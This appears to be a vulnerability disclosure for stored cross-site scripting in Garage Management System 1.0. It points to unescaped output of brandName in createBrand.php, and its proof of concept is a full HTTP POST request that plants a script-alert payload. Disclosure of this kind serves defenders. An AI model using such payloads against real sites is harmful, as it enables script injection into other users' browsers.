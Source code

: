 ## Title: Garage Management System 1.0 Stored Cross-Site Scripting
## Author: tpaer
## Date: 07.22.2022
## Vendor: 
https://www.sourcecodester.com/users/mayurik
## Software:
https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

#Description：
#The Line 10 of createBrand.php sends unvalidated data to a web browser, which
can result in the browser executing malicious code

#echo $createBrand->brandName;

#POC:
```sql
POST /garage/php_action/createBrand.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/add-brand.php
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------259114429803
Content-Length: 472

-----------------------------259114429803
Content-Disposition: form-data; name="currnt_date"


-----------------------------259114429803
Content-Disposition: form-data; name="brandName"

hello(><script>alert(/test/)</script>
-----------------------------259114429803
Content-Disposition: form-data; name="brandStatus"

1
-----------------------------259114429803
Content-Disposition: form-data; name="create"


-----------------------------259114429803--
```
